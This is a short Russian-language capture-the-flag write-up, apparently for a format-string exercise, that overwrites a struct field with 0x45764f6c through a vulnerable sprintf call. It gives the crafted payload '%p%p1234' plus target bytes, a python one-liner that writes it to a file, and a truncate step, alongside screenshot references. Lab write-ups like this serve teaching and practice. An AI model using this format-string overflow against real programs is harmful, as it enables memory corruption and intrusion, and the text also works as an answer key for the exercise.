



Задача - изменить значение поля `changeme` на 0x45764f6c в структуре 
```
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
```

Уязвимое место 
```
char buffer[16];
sprintf(locals.dest, buffer);
```

т.к. адрес в формате строки занимает 14 байт, надо сформировать строку "%p%p1234\x6c\x4f\x76\x45"

Заполняем файл inputfileFO
```
python -c "print('%p%p1234\x6c\x4f\x76\x45')" > inputfileFO
```

И убираем байт \0a
```
truncate -s -1 inputfileFO
```

Параметры buffer и dest до вызова функции\


Содержимое dest и changeme\


Победа\
